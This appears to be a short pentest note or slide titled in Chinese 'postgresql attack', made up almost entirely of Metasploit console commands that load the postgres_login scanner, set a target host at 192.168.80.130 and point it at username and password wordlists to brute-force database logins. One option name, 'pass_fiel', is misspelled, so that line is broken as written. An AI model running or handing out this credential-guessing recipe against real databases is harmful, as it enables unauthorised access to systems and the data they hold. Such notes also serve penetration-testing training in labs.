

# postgresql攻击
search  postgresql
use auxiliary/scanner/postgres/postgres_login
show options
set RHOSTS 192.168.80.130
set user_file /root/user.txt
set pass_fiel /root/pass.txt
exploit